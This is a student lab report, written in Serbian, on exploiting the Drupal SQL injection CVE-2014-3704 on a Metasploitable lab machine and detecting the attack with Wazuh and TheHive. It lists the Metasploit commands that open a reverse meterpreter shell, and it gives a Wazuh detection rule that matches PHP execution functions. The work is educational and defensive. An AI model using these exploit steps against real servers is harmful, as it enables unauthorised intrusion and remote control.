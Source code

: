 # Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Име и презиме: Христина Адамовић R2 20/2024
### Датум: 1.12.2024. - 8.12.2024.

---

## Преглед рањивости

### 1.1 Информације о рањивости

- ID рањивости (CVE): CVE-2014-3704 
- Погођен сервис: Drupal Core
- CVSS оцена: 7.5 (висока)
- Опис рањивости: Друпал верзије 7.x (прије 7.32) погођен је рањивошћу SQL инјекције. Функција `expandArguments` у API-ју за апстракцију базе података 
не конструише исправно припремљене изразе, јер не провјерава податке добијене од корисника. To омогућава удаљеним нападачима да изведу нападе SQL инјекције путем низа који садржи специјално креиране кључеве. Рањивост је позната и под називом `Drupageddon`.

### 1.2 Опис експлоита

**Извор експлоита:**

Назив експлоита: Drupal HTTP Parameter Key/Value SQL Injection

Линк до експлоита: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/drupal_drupageddon.rb

**Метод експлоатације:**

Постоје два метода екслоатације који се односе на начин на који ће PHP payload бити активиран. Кориштен је други метод који се заснива на креирању корисникове објаве.
Упућује се post захтјев ка друпаловој логин страници, што ће креирати новог корисника у табели корисника. Након тога се додатом кориснику додјељује администраторска улога. Администраторима се даје право да уметну PHP код у своје објаве. Новокреирани администратор креира нову објаву која садржи payload, те приказивањем те објаве ће се активирати извршење payload-а. Одабрани payload омогућава remote shell (метапретер сесију) на рањивој машини.

---

## Процес експлоатације

### 2.1 Подешавање експлоита

**Рањив циљ:**

- Metasploitable 3 Ubuntu
- Drupal Core 7.x (прије 7.32)
- Apache 2.4.7 који ради на порту 80

**Алати за експлоатацију:**

Metasploit Framework

### 2.2 Кораци експлоатације

1. Покрећемо Metasploit Framework: `msfconsole.bat`
2. Тражимо експлоит за Друпал: `search Drupal`
3. Од понуђених, бирамо онај са индексом 18, командом `use 18`, јер он представља претходно описани метод. Аутоматски се одабере стандардни payload `php/meterpreter/reverse_tcp` који врши креирање метапретер сесије 
4. Подесимо адресу рањиве машине: `set RHOST 192.168.0.102`
5. Подесимо локацију ресурса који се напада (URI): `set TARGETURI /drupal/`
6. Покренемо експлоит `exploit`

![img](metasploit1.png)

![img](metasploit2.png)

### 2.3 Резултат експлоатације

Креиран је нови корисник са приказаним креденцијалима који има администраторску улогу. 
Отворена је метапретер сесија.

![img](metasploit3.jpg)

## Детекција коришћењем Wazuh SIEM-а

### 3.1 Wazuh SIEM правила

**Правила кориштена за детекцију:**

У `/var/ossec/etc/rules/local_rules.xml` је додато сљедеће правило:

```xml
<group name="drupal_exploit_detection">
    <rule id="100005" level="12">
        <description>Drupal exploit detection</description>
        <match>.*(php|eval|system|exec|passthru|shell_exec).*</match>
        <regex_field name="request">.*POST.*\/drupal\/\?q=node.*</regex_field>
        <options>no_full_log</options>
        <mitre>
            <id>T1203</id>
        </mitre>
    </rule>
</group>

```

- ID je `100005` а Mitre ID je T1203
- Level је `12`
- Опис правила: Поље `regex_field` осигурава да се правило активира када се упути POST захтјев ка наведеној крајњој тачки за Друпал. Услов `match` тражи уобичајене функције за извршавање PHP кода у садржају захтјева како би се детектовао потенцијални експлојт. Ако је он игде пронађен, покренуће се алерт за задато правило.
- Не желимо да цео алерт иде у лог и зато је постављено `no_full_log`.

### 3.2 Конфигурација SIEM-а

**Подешавање Wazuh агента:**

Вазух менаджер, заједно са вазух индексером и дешбордом, инсталиран је преко асистента из званичне документације идућом командом:
```sh
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh && sudo bash ./wazuh-install.sh -a
```
У оквиру вазух дешборда кликом на дугме `Deploy new agent` прикажу нам се команде које је потребно унијети за инсталацију агента на рањивој машини (oдабрана је опција DEB amd64):

```sh
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.9.2-1_amd64.deb && sudo WAZUH_MANAGER='172.21.34.178' WAZUH_AGENT_NAME='Test2' dpkg -i ./wazuh-agent_4.9.2-1_amd64.deb
```

На крају покрећемо агента: 

```sh
sudo /var/ossec/bin/wazuh-control start
```

**Прикупљање логова:**

Логови се налазе у `/var/log/apache2/access.log`. У конфигурационом фајлу `ossec.conf` се поставља путања до тих логова, уколико она већ није ту.

```xml
<localfile>
  <location>/var/log/apache2<FILE_PATH>/access.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Процес детекције

Када се уради покушај напада, у веб апликацији прикаже се догађај о генерисаном алерту. 

![img](./wazuh1.png)

---

## Incident Reponse са The Hive-ом

### 4.1 Подешавање интеграције

**Опис интеграције:**

Праћен је туторијал са идућег линка: https://wazuh.com/blog/using-wazuh-and-thehive-for-threat-protection-and-incident-response/

Креиране су пајтон скрипта под називом `custom-w2thive` и истоимена беш скрипта за извршавање пајтон скрипте, обје на путањи `/var/ossec/integrations/`. Пајтон скрипта за сваки алерт из вазух *json* фајла, уколико је тај алерт изнад подешеног прага нивоа правила, креира пост захтјев којим шаље податке о насталом алерту ка Тhe Hive-у. 

Вазуху је потребно додијелити одговарајуће пермисије да би могао приступити наведеним фајловима:

```sh
sudo chmod 755 /var/ossec/integrations/custom-w2thive.py
sudo chmod 755 /var/ossec/integrations/custom-w2thive
sudo chown root:ossec /var/ossec/integrations/custom-w2thive.py
sudo chown root:ossec /var/ossec/integrations/custom-w2thive
```

Да би комуникација са Тhe Hive-ом била омогућена, у конфигурациони фајл вазуха мора се додати секција за интеграцију са The Hive-ом:

![img](./integration.png)

Након измјене конфигурационог фајла, потребно је рестартовати вазух менаджер:

```sh
sudo systemctl restart wazuh-manager
```

**Интеграција правила:**

Правило приказано у одјељку 3.1 креираће алерт у оквиру вазуха ако детектује напад, након чега се извршава беш скрипта `custom-w2thive` која прослијеђује параметре пајтон скрипти да би користила податке из алерта и послала их Тhe Hive-у.

![img](./thehive1.png)

### 4.2 Креирање случаја у The Hive-у

**Детаљи о случају:**

![img](./thehive2.png)